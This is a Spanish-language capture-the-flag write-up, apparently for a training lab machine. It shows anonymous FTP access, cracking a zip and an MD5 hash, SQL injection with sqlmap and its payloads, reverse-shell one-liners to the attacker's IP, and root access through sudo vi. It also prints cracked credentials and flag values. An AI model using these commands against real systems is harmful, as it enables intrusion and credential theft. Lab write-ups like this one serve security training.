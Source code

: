 #### nmap
```python
nmap -sVC 10.129.66.130
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 16:29 EDT
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 28.95% done; ETC: 16:29 (0:00:20 remaining)
Stats: 0:00:20 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 77.37% done; ETC: 16:29 (0:00:06 remaining)
Stats: 0:00:33 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 16:30 (0:00:03 remaining)
Nmap scan report for 10.129.66.130
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.157
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: MegaCorp Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

###### Podemos ver que el puerto 21 esta corriendo el servicio ftp el cual esta configurado por defecto como anonymous
# ftp
```python
ftp 10.129.66.130
Connected to 10.129.66.130.
220 (vsFTPd 3.0.3)
Name (10.129.66.130:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10423|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
```

##### al entrar nos damos cuenta que existe un archivo backup.zip el cual descargaremos usando `get backup.zip` si hacemos `unzip backup.zip` al intentar descomprimir el archivo nos damos cuenta que esta cifrado por lo que usaremos `john the ripper con la opcion zip2john` 

```python
zip2john backup.zip > backuphash  
```
##### con la opcion `>` cambiamos el nombre para que podamos ver el hash de la contraseña, ahora le hacemos un `cat` para ver si tenemos el hash y si todo esta correcto le pasamos el john 

```python
john -wordlist=/usr/share/wordlists/rockyou.txt backuphash

--Passw: 741852963
```

![[2023-10-11_17-11.png]]

#### conseguimos dos archivos: `index.php` `style.css` el index.php se ve prometedor asi que le hacemos un `cat`

![[2023-10-11_17-21.png]]
#### conseguimos lo que parece ser una contraseña que esta codificada en otro hash. entonces usaremos hashid para intentar saber que tipo de hash es 

```python
:hashid 2cb42f8734ea607eefed3b70af13bbd3
```
![[2023-10-11_17-42.png]]

#### Podriamos probar con MD2 - MD5 y MD4 que son los mas comunes. para esto usaremos `hashcat`

```python
hashcat -a 0 -m 0 passwhash /usr/share/wordlists/rockyou.txt
```
![[2023-10-11_17-53.png]]

#### Bueno nos guardamos la contraseña probaremos entrar en la direccion web ya que en el reconocimiento nmap nos damos cuenta que tambien tiene el puerto 80 abierto

![[2023-10-11_18-14.png]]

#### iniciamos con las credenciales que hemos conseguido
```python
--admin
--qwerty789
```

![[2023-10-11_18-48.png]]

#### logramos entrar y haciendo unas pruebas rapidas parece que la pag esta conectada a la base de datos y es vulnerable a SQLI. 

```python
como podemos saber si es vulnebrable a SQLI. en el buscador ponemos una comilla simple ` y damos enter y vemos que aparece un error. esto se debe a que la pag esta leyendo la comilla como si fuera un caracter alfa numerico y no como un caracter especial como deberia ser
```
para verificar esto usaremos `sqlmap`
```python
sqlmap -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg"

-u para indicar la url de la pag 
--cookie para indicar la cookie de session 

si hacemos sqlmap -h se abre el panel de ayuda y podemos ver que el comando --current-db nos enumera la base de datos actual en la que estamos asi que usaremos ese 

tambien podemos ver que existe uno llamado --batch para que realice todas las acciones por defecto sin pregunytarnos nada. asi que el comando nos queda de la sigiente manera: 
------------------------------------------------------
sqlmap --current-db -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg" --batch
------------------------------------------------------
```

#### Podemos ver que el resultado:
![[2023-10-11_19-11.png]]

#### Podemos notar que existen 4 tipos de inyecciones SQLI y que el nombre de la base de datos es public

```python
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=a' AND (SELECT (CASE WHEN (1509=1509) THEN NULL ELSE CAST((CHR(101)||CHR(86)||CHR(75)||CHR(74)) AS NUMERIC) END)) IS NULL-- nIOk

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=a' AND 2166=CAST((CHR(113)||CHR(122)||CHR(118)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (2166=2166) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(107)||CHR(107)||CHR(113)||CHR(113)) AS NUMERIC)-- NgJP

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=a';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=a' AND 7512=(SELECT 7512 FROM PG_SLEEP(5))-- tfIZ
```

#### ahora que sabemos el nombre de la base de datos podemos enumerarla usando el mismo comando sqlmap con una pequeña variante: 
```css
sqlmap -D public --tables -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg" --batch
```
conseguimos una tabla llamada cars asi que buscaremos esa tabla con el siguiente comando
```css
sqlmap -D public -T cars --culumns -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg" --batch
```

![[2023-10-11_19-25.png]]

#### podemos ver algunas columnas pero si nos fijamos podemos ver que son las mismas que salen ena la pagina web asi que mejor seguimos buascando en sqlmap y podemos encontar la opcion `--os-shell` asi que lo usaremos en nuestro codigo.

```css 
sqlmap --os-shell -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg" --batch
```

![[2023-10-11_19-35.png]]

#### de esta manera hemos conseguido una shell interactiva. pero esta shell esta un poco limitada asi que podemos intentar enviarnos una reverse shell a nuestro equipo para poder interactuar de mejor manera.

```css
sh -i >& /dev/tcp/10.10.15.157/8001 0>&1
```

```css
bash -c 'bash -i >& /dev/tcp/10.10.15.157/8001 0>&1'
```

#### con esta bash notamos que perdemos coneccion. asi que usaremos una enviada por netcat para intentar resolver esto.

```css
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f
```

### despues de esto hacemos tratamiento tty y empezamos a examinar la maquina.
user.txt
```css
ec9b13ca4d6229cd5cc1e09980965bf7
```

#### vamos a navegar hasta el directorio donde esta alojada la base de datos
passid:
```css
2cb42f8734ea607eefed3b70af13bbd3
```
db:id
```css
user: postgres
password: P@s5w0rd!
```

#### con estas credenciales podriamos intentar entrar via ssh

hacemos sudo -l para saber cuales son los permiso que tiene el usuario postgres como administrador 

`/bin/vi /etc/postgresql/11/main/pg_hba.config`

vemos que tiene permisos solo en este archivo asi que lo ejecutaremos como administrador 

`sudo /bin/vi /etc/postgresql/11/main/pg_hba.config`

abrimos el archivo, ponemos : y le decimos que nos de una shell y presionamos enter. 
automaticamente seremos root

root.txt
```css
dd6e058e814260bc70e9bbdef2715849
```

